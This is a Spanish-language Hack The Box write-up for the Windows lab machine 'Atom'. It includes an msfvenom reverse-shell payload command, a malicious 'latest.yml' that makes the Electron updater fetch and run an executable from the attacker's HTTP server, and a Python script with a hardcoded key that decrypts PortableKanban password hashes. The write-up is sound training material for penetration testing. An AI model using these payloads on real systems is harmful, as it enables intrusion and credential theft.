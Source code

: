 ```yaml
---
title: "Atom - Hack The Box"
layout: single
excerpt:
show_date: true
classes: wide
header:
  teaser: "https://raw.githubusercontent.com/Wiinsad/Wiinsad.github.io/master/assets/images/machines/HTB/atom/data/Atom.jpg"
  teaser_home_page: true
  icon: "https://github.com/Wiinsad/Wiinsad.github.io/blob/master/assets/images/icons/Hackthebox2.png?raw=true"
categories:
  - Writeup
  - HackTheBox
tags:
  - Smb
  - Redis
  - Encryption
  - Windows
---
```


<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/Wiinsad.github.io/master/assets/images/machines/HTB/atom/data/AtomHTB.png">
</p>

La máquina **atom** es una máquina virtual vulnerable de la plataforma HackTheBox con un nivel de dificultad **Medium** una calificación en el rank de 2.8, **2131 USER OWNS** y **2010 SYSTEM OWNS** con la ip **10.10.10.237** y un sistema operativo **Windows**.

## Port Scan

Para empezar, hice un escaneo con la herramienta **Nmap** para encontrar los puertos abiertos disponibles en la máquina con **[Ip:10.10.10.237]** utilizando los parámetros:
- **-p-:**    Escaneo a toda la gama de puertos (65536).
- **-Pn:**    Evita hacer ping a las maquinas a escanear.
- **--min-rate:** Envió de paquetes no mas lentos que el numero especificando.
- **-sS:**    Lanza un sondeo de tipo SYN sigiloso
- **--open:** Muestra sólo los puertos con un estatus abierto.
- **-oG:**    Guarda la el output en formato Grepeable.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/atom/scan/scanPort.png">
  </p>


  Una vez que hicimos el escaneo de puertos con la herramienta **ExtractPorts**, vemos que los puertos que destacaron en este caso fueron **80,135,443,445,5985,6379**:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/atom/scan/Ports.png">
  </p>


  Ya identificados los puertos abiertos, realizaremos un escaneo de versiones y servicios de estos puertos con la herramienta nmap configurando los siguientes parámetros:

  - **-sC:** Script de enumeración básica de sondeo en puertos y servicios alojados.
  - **-sV:** Detección de versiones en servicios alojados en puertos.
  - **-p :** Puertos a inspeccionar.
  - **-oN:** Formatos de Nmap en los que se guardará el archivo.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/atom/scan/PortServ.png">
  </p>

  Gracias a escaneo de versiones y servicios podemos ver varios puertos que son de interés como el **445**, el **6379** y el **80**, para esto voy a enumerar el servicio 445 que es un servicio de **SMB**, para esto usare la herramienta de **smbclient** para listar los recursos y con auténticamente con el usuario **"anonymous"**:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/atom/scan/smb.png">
  </p>

  Con esta enumeración de recursos y entrando como un usuario **anonymous** con una null session puedo ver que existe un recurso llamado **Software_Updates**, para ver si tengo permisos para acceder a ese recurso usare la herramienta de **smbmap** para identificar los permisos que tengo sobre ese recursos con la null session:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/atom/scan/smbp.png">
  </p>

  Como se puede ver tengo permisos de **lectura y escritura** en este recurso compartido por smb así que ya con esto en mente entrare al recurso con **smbclient**:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/atom/scan/smba.png">
  </p>

  Al entrar al recurso se puede ver que existen 3 carpetas **client** numeradas de **1 al 3** y un archivo pdf.


  Transfiriendo el pdf a mi maquina puedo ver puedo ver que habla de un aplicativo llamado **Heedv1.0**.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/atom/scan/heed.png">
  </p>

  Investigando en se puede llegar un **[post](https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html)** el cual explica como mediante la subida de un archivo **lastet.yml** con contenido malicioso puede ser interpretado para ejecutar comando.

  Sabiendo esto primero voy a crear un archivo malicioso con la herramienta de **msfvenom**

  ```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > w\'insad.exe
  ```

  Una vez creado nuestro ejecutable el cual queremos que la maquina nos interprete en el post nos indica que tenemos que conseguir el hash del ejecutable para ingresarlo en nuestro archivo **lastet.yml**, este hash se consigue con las siguiente sentencia de comando:

  ```bash
shasum -a 512 w\'insad.exe | cut -d " " -f1 | xxd -r -p | base64
  ```
  Ya que tenemos el hash tenemos que crear nuestro archivo **lastet.ymal** el cual tendrá el siguiente contenido:

  ```bash
  version: 1.2.3
  path: http://10.10.15.125/w\'insad.exe
  sha512: [Hash]
  ```

  Ya que cree el archivo **lastet.ymal** entro al recurso compartido con **smbclient** y dentro de una carpeta **client1** subo el archivo **lastet.ymal**, poniéndome en escucha por el puerto 443 el cual fue el que especifique ene el archivo exe y levantando un servicio **http** con python para que cuando el aplicativo interprete el contenido de **lastet.ymal** comunique a mi maquina y ejecute el archivo exe.
  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/atom/intrusion/shell.png">
  </p>

  Como se puede ver el aplicativo es vulnerable a esta ejecución de comando y pude acceder a la maquia como el usuario **jason**

## Privilege escalation

  Para poder hacer una escala de privilegios yo usare la herramienta **"winpeas"** la cual ayuda a enumerara el sistema windows en busca de vulnerabilidades, procesos, credenciales o archivos interesantes que existan en la maquina.

  Para transferir el archivo yo me levantare un servicio smb en mi maquina para que desde la maquina victima poder copiar el archivo **winpeas**.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/atom/intrusion/tra.png">
  </p>

  Una vez que pase el binario lo ejecute y espere a los resultados los cuales me lanzaron que se pueden ver las credenciales del usuario **jason** en el sistema.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/atom/intrusion/cred.png">
  </p>

  También es notable que esta corriendo **redis** ya que lo vimos a la hora de escanear los puertos existentes y viendo en los resultados que winpeas me dio, veo que redis tiene un archivo de configuración setteado.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/atom/intrusion/redis.png">
  </p>

  Si vamos a ese directorio y vemos que en uno de los archivos que existente de configuración se puede ver que hay unas credenciales para redis y recordando que redis es visible para nosotros puedo intentar acceder a redis con esas credenciales.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/atom/intrusion/redis1.png">
  </p>

  Entrando a redis con una cli con los comando ```redis-cli -d <IP-Machine> -a <Password> ``` y enumerando las key se puede ver que existe una con el hash de el usuario administrador.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/atom/intrusion/redis2.png">
  </p>

  Teniendo este hash y enumerando mas el sistema podemos ver que hay un fólder en Descargas del usuario **jason** llamado **PortableKanban** haciendo una búsqueda se puede llegar a que hay recurso en **"Exploit Database"** el cual sirve para descifrar este tipo de hashes.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/atom/intrusion/exp.png">
  </p>

  Adaptando el exploit ya que esté sirve para encriptar pero cuenta con una función de decryp podemos lograr pasarle el hash para decryptarlo.

  ```python
  import json
  import base64
  from des import * #python3 -m pip install des
  import sys

  def decode(hash):
          hash = base64.b64decode(hash.encode('utf-8'))
          key = DesKey(b"7ly6UznJ")
          return key.decrypt(hash,initial=b"XuVUm5fR",padding=True).decode('utf-8')

  print(decode('<HASH>'))
  ```
  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/atom/intrusion/admi.png">
  </p>

  Ahora que tenemos las credenciales del usuario "administrador" podemos verificarlas con la herramienta de **crackmapexec**:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/atom/intrusion/preshell.png">
  </p>
  Y como vemos la herramienta los muestra un **Pwn3d!** lo que significa que tenemos capacidad de **psexec** para obtener una shell como el usuario administrador.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/atom/intrusion/shellr.png">
  </p>
